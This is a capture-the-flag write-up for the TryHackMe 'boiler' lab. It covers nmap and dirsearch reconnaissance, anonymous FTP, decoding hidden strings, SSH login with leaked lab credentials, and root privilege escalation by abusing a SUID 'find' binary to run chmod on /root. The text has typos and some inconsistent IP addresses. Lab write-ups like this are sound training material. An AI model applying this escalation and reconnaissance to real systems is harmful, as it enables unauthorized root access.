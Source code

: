# Tryhackme (boiler CTF)

	enumuration process
## Nmap
```
sudo nmap -sC -sV 10.10.231.142
```
we got the ports like

```
Starting Nmap 7.80 ( https://nmap.org ) at 2024-03-26 16:41 IST
Nmap scan report for 10.10.231.142
Host is up (0.55s latency).
Not shown: 997 closed ports
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.2.124.113
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp    open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
10000/tcp open  http    MiniServ 1.930 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 94.36 seconds


```

in this scan there is a ftp server, from that server we got an file `.info.txt` in this file there is some bunch of text are there for that we need to check any vuln.

in this file we have some of the ROT13 codes 
```
	Whfg jnagrq gb frr vs lbh svaq vg. Yby. Erzrzore: Rahzrengvba vf gur xrl!

```
after decrypt: 	`Just wanted to see if you find it. Lol. Remember: Enumeration is the key!`	



also there http server mainly `robots.txt` in thsi directory
```
User-agent: *
Disallow: /

/tmp
/.ssh
/yellow
/not
/a+rabbit
/hole
/or
/is
/it

079 084 108 105 077 068 089 050 077 071 078 107 079 084 086 104 090 071 086 104 077 122 073 051 089 122 085 048 077 084 103 121 089 109 070 104 078 084 069 049 079 068 081 075
```
in this some of the decimal encryption. we decrypt that codes we got

OTliMDY2MGNkOTVhZGVhMzI3YzU0MTgyYmFhNTE1ODQK == base64
99b0660cd95adea327c54182baa51584  = md5
:kidding

also searched for directory list we got

`dirsearch -u http://10.10.253.152`
```
[17:22:52] 200 -   11KB - /index.html
[17:22:55] 301 -  315B  - /joomla  ->  http://10.10.231.142/joomla/
[17:22:55] 301 -  329B  - /joomla/administrator  ->  http://10.10.231.142/joomla/administrator/
[17:22:56] 200 -   12KB - /joomla/
[17:23:02] 301 -  315B  - /manual  ->  http://10.10.231.142/manual/
[17:23:02] 200 -  626B  - /manual/index.html
[17:23:24] 200 -  257B  - /robots.txt
[17:23:26] 403 -  302B  - /server-status/
[17:23:26] 403 -  301B  - /server-status


```

in site `	`
VjJodmNITnBaU0JrWVdsemVRbz0K
V2hvcHNpZSBkYWlzeQo=
Whopsie daisy


## ssh

user = basterd
passwd  superduperp@$$

```
ssh basterd@10.10.129.170 -p 55007
```
after we enter the new user id 
cat backup.sh
[image]
we got user text

cat .secret
- ` `


then check the root privilage
`sudo -l`

SUID (Set owner User ID up on execution) is a special type of file permissions given to a file. Normally in Linux/Unix when a program runs, it inherits access permissions from the logged in user. SUID is defined as giving temporary permissions to a user to run a program/file with the permissions of the file owner rather that the user who runs it.

Use the following command to find files whose SUID bit is set.
```
    $ find / -perm /4000 -type f -exec ls -ld {} \; 2>/dev/null
```
[image]

Let’s breakdown the command we used for better understanding:

find →Search for files in a directory hierarchy.

    / →Search for files recursively from the root folder and so on.
    -perm →To set specific permission setting. In this case which is /4000 the numerical representation of the SUID bit enabled
    -type →It specify what type of files we wants to search. f for files, d for directories
    -exec →let us execute a command with the findings from find in an array. In this case I used ls -ld to show the owner of the found files and the date of creation
    2>/dev/null → which redirects all (errors) to /dev/null and keeping the output clean.

Have you observed the output we got from this command yet? In the list there is find commnad which have SUID bit set which means we can run find as root user. Using -exec flag as shown above. Let’s try out by changing the permission of root directory.
```
$ find . -exec chmod 777 /root \;
```

finally we got a root.txt

- 
